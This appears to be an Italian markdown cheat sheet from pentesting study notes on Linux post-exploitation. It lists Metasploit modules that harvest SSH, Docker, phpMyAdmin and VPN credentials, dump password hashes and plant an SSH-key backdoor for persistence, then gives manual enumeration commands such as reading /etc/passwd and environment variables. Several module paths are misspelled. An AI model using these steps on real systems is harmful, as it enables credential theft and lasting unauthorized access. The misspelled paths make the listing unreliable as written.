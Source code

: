 
# Moduli di Post Exploitation per Linuc
MEtaasploit mette a disposizione numerosi moduli di post exploitation per linux con cui possiamo 
- Enumerare le configurazioni di sistema
- Enumerare le variabili d'ambiente
- Enumerare la configurazione di rete
- Verificare se il target é una macchina virtuale
- Enumerare la cronologia degli utenti

```bash
use post/linux/gather/enum_config            # modulo per ottenere informazioni di sistema tramite i file di configurazione
use post/multi/gather/env                    # modulo per raccoglie le impostazioni sulle variabili d'ambiente
use post/linux/gather/enum_network           # modulo per ottenere automaticamente le impostazioni di rete come configuration del firewall, la configurazione del DNS, chiavi SSH, eccetera.
use post/linux/gather/emum_protection        # modulo per identificare i sistemi di sicurezza del target come SMAP, SELinux, PaX e grsecurity
                                             # esegui il comando `notes` per visualizzare queste informazioni raccolte
use psot/lunux/gather/enum_system            # modulo per ottenere informazioni sul sistema target e sugli utenti 
use post/linuc/gather/check_containeer       # modulo per identificare se il target é un container per poi eseguire un attacco di breakout container
use post/linux/gather/check_vm               # modulo per identificare se il target é una Macchina Virtuale
use post/linux/gather/enum_users_history     # modulo per identificare la cronologia degli utenti 
```
```bash
use post/multi/gather/ssh_creds               # modulo che enta di trovare le credenziali SSH
use post/multi/gather/docker_creds            # modulo che estrae le credenziali di Docker, come token di autenticazione o file di configurazione, da sistemi sia Linux che Windows
use post/linux/gather/hashdump                # modulo per umperare gli hash delle password da un sistema Linux.
use post/linux/gather/ecryptfs_creds          # modulo che cerca le credenziali di eCryptfs, un sistema di filesystem cifrato usato spesso su Linux
use post/linux/gather/enum_psk                # modulo che enumera le Pre-Shared Key (PSK) di configurazioni VPN (come IPsec).
use post/linux/gather/enum_xchat              # modulo che cerca informazioni relative a XChat, un client IRC per Linux.
use post/linux/gather/phpmyadmin_credsteal    # modulo che estrae le credenziali di phpMyAdmin, spesso presenti in file di configurazione (config.inc.php) su server web Linux.
use post/linux/gather/pptpd_chap_secrets      # modulo che cerca di estrarre file come /etc/ppp/chap-secrets che contengono le credenziali degli utenti PPP, usati da server VPN come PPTP.
use post/linux/manage/sshkey_persistence      # modulo che crea una persistenza SSH sul target.
#Aggiunge una chiave pubblica (id_rsa.pub) al file authorized_keys dell’utente scelto, in modo che ci si possa ricconettere
#via SSH senza password in futuro.
```

tutti questi moduli otterranno informazioni sul sitema e possiamo visualizzare tutte le informazioni ottenute usando il comando `loot` su Metasploit per poi andare a visionare il file creato conteente le inforamzioni usando `cat` seguito dal path del file creato.





## Enumerazione interna manuale
Quando ci troviamo dentro un target dobbiamo eseguire questi comandi per ottenere piú informazioni possibili sul target
```bash
/bin/bash -i              # per aprire una shell bash (a volte viene aperta una shell root)
cat /etc/passwd           # per vedere quanti account sono presenti
groups root               # per vedere quali utenti fanno parte del gruppo root
cat /etc/*issue           # per vedere la distibuzione linux del target
uname -r                  # per vedere la versione del kernel
uname -a                  # informazioni aggiuntive come hostname e kernel version
ip a s                    # per ottenere informazioni sulle interfacce di rete
ps                        # per vedere i processiattivi
env                       # per enumerare le variabili d'ambiente 
netstat -antp             # per mostrare in dettaglio tutte le connessioni di rete TCP attive
```
con `netstat -antp`
- `-a` Mostra tutte le connessioni e le porte in ascolto
- `-n` Mostra indirizzi IP e numeri di porta in formato numerico
- `-t` Limita l’output a solo connessioni TCP
- `-p` Mostra il PID e il nome del processo associato a ciascuna connessione

---
